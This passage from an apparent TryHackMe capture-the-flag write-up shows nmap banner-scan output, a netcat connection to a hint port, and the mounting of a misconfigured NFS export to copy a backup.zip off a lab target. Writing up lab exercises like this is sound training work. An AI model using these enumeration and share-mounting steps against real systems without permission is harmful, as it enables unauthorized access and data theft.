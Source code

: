 ```console
|_00                                                                                    
3/tcp   open  compressnet                                                               
| banner: 550 12345 00000000000000000000000000000000000000000000000000000               
|_00                                                                                    
4/tcp   open  unknown                                                                   
| banner: 550 12345 00000000000000000000000000000000000000000000000000000               
|_00                                                                                    
5/tcp   open  rje                                                                       
| banner: 550 12345 00000000000000000000000000000000000000000000000000000   
.....
.....
.....
|_banner: \x8D000\x8D000\x100\x81\x89\x02\x81\x810w\x02\x03\x010\x010
95/tcp  open  supdup
| banner: <boinc_gui_rpc_reply>\x0A<major_version>0/major_version>\x0A<mi
|_nor_version>5/minor_version>\x0A<release>6/release>
96/tcp  open  dixie
| banner: HTTP/1.0 502 Bad Gateway\x0D\x0AProxy-Connection: close\x0D\x0A
|_Content-type: text/html; charset=us-ascii\x0D\x0A\x0D\x0A<html><head...
97/tcp  open  swift-rvf
|_banner: HTTP/1.0 204 j\x0D\x0AServer: ATEN HTTP Server(V46915)
98/tcp  open  linuxconf
|_banner: SIP/2.0 ------
99/tcp  open  metagram
| banner: E000\x83SFATAL0C0A0000Munsupported frontend protocol 3923.19778
|_: server supports 1.0 to 3.00Fpostmaster.c0L25040RProcessStartupPack...
100/tcp open  newacct
|_banner: 220 Personal FTP Server ready

```
Looks like there is firewall in place, which is showing all the ports as open. And another interesting things that I found here is the number 12345 which is repeating quite a lot on the banner. So thinking that as a hint, I connected to that port.

## Port 12345
```console
local@local:~/Documents/tryhackme/theserverfromhell$ nc 10.10.105.19 12345
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```


# Enumerating nfs
## Listing exports
```console
local@local:~/Documents/tryhackme/theserverfromhell$ showmount -e 10.10.105.19
Export list for 10.10.105.19:
/home/nfs *
```
## Mounting the share
```console
local@local:~/Documents/tryhackme/theserverfromhell$ mkdir mnt
local@local:~/Documents/tryhackme/theserverfromhell$ sudo mount -t nfs 10.10.105.19:/home/nfs mnt/
local@local:~/Documents/tryhackme/theserverfromhell/mnt$ ls
backup.zip
local@local:~/Documents/tryhackme/theserverfromhell/mnt$ cp backup.zip ..
```
## Extracting the zip's content
```console
local@local:~/Documents/tryhackme/theserverfromhell/mnt$ cd ..
```